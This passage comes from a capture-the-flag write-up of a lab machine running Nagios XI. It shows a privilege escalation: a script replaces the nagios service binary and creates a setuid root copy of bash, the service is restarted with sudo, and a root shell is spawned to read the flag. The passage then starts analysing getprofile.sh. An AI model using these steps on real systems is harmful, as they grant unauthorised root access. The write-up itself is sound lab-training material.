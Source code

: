     cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 6777 /tmp/0xdf
    

I’ll copy that to `nagios`, and set the permissions so that it’s executable:

    
    
    nagios@monitored:/usr/local/nagios/bin$ cp /tmp/x.sh nagios
    nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios
    

Now I’ll restart the service:

    
    
    nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
    Job for nagios.service failed because the control process exited with error code.
    See "systemctl status nagios.service" and "journalctl -xe" for details.
    

It fails because this is not a valid service, but it still ran:

    
    
    nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/0xdf 
    -rwsrwsrwx 1 root root 1234376 May  9 08:33 /tmp/0xdf
    

I’ll run with `-p` to keep privs and get a shell as root:

    
    
    nagios@monitored:/usr/local/nagios/bin$ /tmp/0xdf -p
    0xdf-5.1#
    

And read the root flag:

    
    
    0xdf-5.1# cat root.txt
    74cc1c60************************
    

### getprofile.sh

#### Understanding the Script

The script takes an “id” or folder name:

    
    
    # GRAB THE ID
    folder=$1
    if [ "$folder" == "" ]; then
        echo "You must enter a folder name/id to generate a profile."
        echo "Example: ./getprofile.sh <id>"
        exit 1
    fi
    